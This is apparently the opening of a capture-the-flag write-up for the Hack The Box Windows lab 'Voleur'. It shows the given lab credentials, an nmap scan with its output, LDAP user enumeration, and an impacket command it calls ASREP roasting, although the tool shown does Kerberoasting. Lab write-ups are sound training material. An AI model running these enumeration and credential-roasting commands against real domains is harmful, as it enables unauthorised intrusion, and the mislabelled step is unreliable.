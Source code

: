 ```yaml
---
hidden: true
---
```


# Voleur

## Machine Informations

As is common in real life Windows pentests, you will start the Voleur box with credentials for the following account: `ryan.naylor / HollowOct31Nyt`&#x20;



## Port Scanning

```bash
└─$ nmap -T4 -sV -p- --open -oN port_scan.txt 10.10.11.76
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-09 21:26 CEST
Nmap scan report for 10.10.11.76
Host is up (0.031s latency).
Not shown: 65513 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-10 03:28:16Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: voleur.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
2222/tcp  open  ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: voleur.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
53424/tcp open  msrpc         Microsoft Windows RPC
63234/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
63235/tcp open  msrpc         Microsoft Windows RPC
63236/tcp open  msrpc         Microsoft Windows RPC
63260/tcp open  msrpc         Microsoft Windows RPC
64426/tcp open  msrpc         Microsoft Windows RPC

```



## LDAP Enumeration

With gave credentials we can access through the LDAP server.

From here we can get all AD users and save them into a file

{% code overflow="wrap" %}
```bash
ldapsearch -H ldap://voleur.htb -D "ryan.naylor@voleur.htb" -w 'HollowOct31Nyt' -b "dc=voleur,dc=htb" "(objectClass=user)" | grep "sAMAccountName: " | awk -F'sAMAccountName: ' '{print $2}' > users.txt
```
{% endcode %}

Now with the users file, try to perform ASREP roasting

{% code overflow="wrap" %}
```bash
impacket-GetUserSPNs -dc-ip 10.10.11.76 -dc-host dc.voleur.htb 'VOLEUR.HTB/ryan.naylor':'HollowOct31Nyt' -usersfile users.txt
```
{% endcode %}
